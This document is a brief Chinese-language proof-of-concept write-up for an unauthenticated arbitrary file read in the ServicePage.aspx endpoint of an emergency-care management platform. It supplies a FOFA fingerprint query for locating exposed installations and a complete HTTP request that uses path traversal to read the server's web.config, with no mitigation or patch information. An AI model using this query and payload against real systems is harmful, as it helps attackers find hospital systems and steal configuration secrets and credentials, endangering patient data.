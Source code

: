 # 急诊综合管理平台ServicePage.aspx任意文件读取漏洞

急诊综合管理平台 ServicePage.aspx 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```javascript
body="/emis_lib/js/ThreeExtras.js"
```

## poc

```javascript
GET /dcwriter/thirdpart/ServicePage.aspx?wasmres=./../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20250103100646017](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031006091.png)